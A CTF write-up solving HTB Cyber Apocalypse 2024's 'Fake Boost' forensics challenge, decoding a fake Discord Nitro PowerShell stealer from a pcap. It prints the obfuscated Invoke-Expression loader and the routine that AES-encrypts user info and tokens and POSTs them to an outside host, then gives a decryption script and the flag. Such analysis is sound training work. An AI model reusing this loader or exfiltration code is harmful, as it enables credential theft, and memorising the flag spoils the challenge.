

# Cyber Apocalypse 2024

## Fake Boost

> In the shadow of The Fray, a new test called ""Fake Boost"" whispers promises of free Discord Nitro perks. It's a trap, set in a world where nothing comes without a cost. As factions clash and alliances shift, the truth behind Fake Boost could be the key to survival or downfall. Will your faction see through the deception? KORP™ challenges you to discern reality from illusion in this cunning trial.
> 
> Author: gordic
> 
> [`forensics_fake_boost.zip`](forensics_fake_boost.zip)

Tags: _forensics_

## Solution
This challenge comes with another `pcap`. We put it into [`NetworkMiner`](https://www.netresec.com/?page=NetworkMiner) and find a few files that where transferred. 



The first one, called `discordnitro.ps1.octet-stream` is a obfuscated `powershell` script.

```powershell
$jozeq3n = "9ByXkACd1BHd19ULlRXaydFI7BCdjVmai9ULoNWYFJ3bGBCfgMXeltGJK0gNxACa0dmblxUZk92YtASNgMXZk92Qm9kclJWb15WLgMXZk92QvJHdp5EZy92YzlGRlRXYyVmbldEI9Ayc5V2akoQDiozc5V2Sg8mc0lmTgQmcvN2cpREIhM3clN2Y1NlIgQ3cvhULlRXaydlC....." ;
$s0yAY2gmHVNFd7QZ = $jozeq3n.ToCharArray() ; [array]::Reverse($s0yAY2gmHVNFd7QZ) ; -join $s0yAY2gmHVNFd7QZ 2>&1> $null ;
$LOaDcODEoPX3ZoUgP2T6cvl3KEK = [sYSTeM.TeXt.ENcODING]::UTf8.geTSTRiNG([SYSTEm.cOnVeRT]::FRoMBaSe64sTRing("$s0yAY2gmHVNFd7QZ")) ;
$U9COA51JG8eTcHhs0YFxrQ3j = "Inv"+"OKe"+"-EX"+"pRe"+"SSI"+"On" ; New-alIaS -Name pWn -VaLuE $U9COA51JG8eTcHhs0YFxrQ3j -FoRcE ; pWn $lOADcODEoPX3ZoUgP2T6cvl3KEK ;
```

We see that a payload is decoded and then invoked. To decode, we just grab the part before the invoke, meaning the decoded string that ends up in `$LOaDcODEoPX3ZoUgP2T6cvl3KEK` and copy it to a powershell. After encoding we get the following [`payload`](payload.ps1). On line `123` we see `$part1 = "SFRCe2ZyMzNfTjE3cjBHM25fM3hwMDUzZCFf"`. Decoding the base64 string gives us `HTB{fr33_N17r0G3n_3xp053d!_`.

For part one, the script downloads another file (`line 1: $URL = "http://192.168.116.135:8080/rj1893rj1joijdkajwda"`). We get the file from network miner:

```bash
bEG+rGcRyYKeqlzXb0QVVRvFp5E9vmlSSG3pvDTAGoba05Uxvepwv++0uWe1Mn4LiIInZiNC/ES1tS7Smzmbc99Vcd9h51KgA5Rs1t8T55Er5ic4FloBzQ7tpinw99kC380WRaWcq1Cc8iQ6lZBP/yqJuLsfLTpSY3yIeSwq8Z9tusv5uWvd9E9V0Hh2Bwk5LDMYnywZw64hsH8yuE/u/lMvP4gb+OsHHBPcWXqdb4DliwhWwblDhJB4022UC2eEMI0fcHe1xBzBSNyY8xqpoyaAaRHiTxTZaLkrfhDUgm+c0zOEN8byhOifZhCJqS7tfoTHUL4Vh+1AeBTTUTprtdbmq3YUhX6ADTrEBi5gXQbSI5r1wz3r37A71Z4pHHnAoJTO0urqIChpBihFWfYsdoMmO77vZmdNPDo1Ug2jynZzQ/NkrcoNArBNIfboiBnbmCvFc1xwHFGL4JPdje8s3cM2KP2EDL3799VqJw3lWoFX0oBgkFi+DRKfom20XdECpIzW9idJ0eurxLxeGS4JI3n3jl4fIVDzwvdYr+h6uiBUReApqRe1BasR8enV4aNo+IvsdnhzRih+rpqdtCTWTjlzUXE0YSTknxiRiBfYttRulO6zx4SvJNpZ1qOkS1UW20/2xUO3yy76Wh9JPDCV7OMvIhEHDFh/F/jvR2yt9RTFId+zRt12Bfyjbi8ret7QN07dlpIcppKKI8yNzqB4FA==
```

But after base64 decoding we get only a mess of bytes. The script also makes this clear, it encrypts user infos and sends the encrypted blob as POST request to `http://192.168.116.135:8080/rj1893rj1joijdkajwda`.

```powershell
$AES_KEY = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k="
$payload = $userInfos | ConvertTo-Json -Depth 10
$encryptedData = Encrypt-String -key $AES_KEY -plaintext $payload

try {
    $headers = @{
        'Content-Type' = 'text/plain'
        'User-Agent' = 'Mozilla/5.0'
    }
    Invoke-RestMethod -Uri $URL -Method Post -Headers $headers -Body $encryptedData
}
catch {}
```

Since AES is symmatric, we can just decrypt with the same key.

```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
import base64

def decrypt_string(key, encrypted_base64_string):
    encrypted_data = base64.b64decode(encrypted_base64_string)
    iv = encrypted_data[:AES.block_size]
    ciphertext = encrypted_data[AES.block_size:]
    cipher = AES.new(key, AES.MODE_CBC, iv)
    decrypted_data = unpad(cipher.decrypt(ciphertext), AES.block_size)
    return decrypted_data.decode()

data = open("data", "rb").read()

key = base64.b64decode("Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k=")

print(decrypt_string(key, data))
```

And voilà here are the user infos in plaintext again:

```json
[
    {
        "ID":  "1212103240066535494",
        "Email":  "YjNXNHIzXzBmX1QwMF9nMDBkXzJfYjNfN3J1M18wZmYzcjV9",
        "GlobalName":  "phreaks_admin",
        "Token":  "MoIxtjEwMz20M5ArNjUzNTQ5NA.Gw3-GW.bGyEkOVlZCsfQ8-6FQnxc9sMa15h7UP3cCOFNk"
    },
    {
        "ID":  "1212103240066535494",
        "Email":  "YjNXNHIzXzBmX1QwMF9nMDBkXzJfYjNfN3J1M18wZmYzcjV9",
        "GlobalName":  "phreaks_admin",
        "Token":  "MoIxtjEwMz20M5ArNjUzNTQ5NA.Gw3-GW.bGyEkOVlZCsfQ8-6FQnxc9sMa15h7UP3cCOFNk"
    }
]
```

The e-mail looks again to be base64 decoded, so lets decode this as well to get the second part of the flag.

```bash
$ echo "YjNXNHIzXzBmX1QwMF9nMDBkXzJfYjNfN3J1M18wZmYzcjV9" | base64 -d
b3W4r3_0f_T00_g00d_2_b3_7ru3_0ff3r5}
```

Flag `HTB{fr33_N17r0G3n_3xp053d!_b3W4r3_0f_T00_g00d_2_b3_7ru3_0ff3r5}`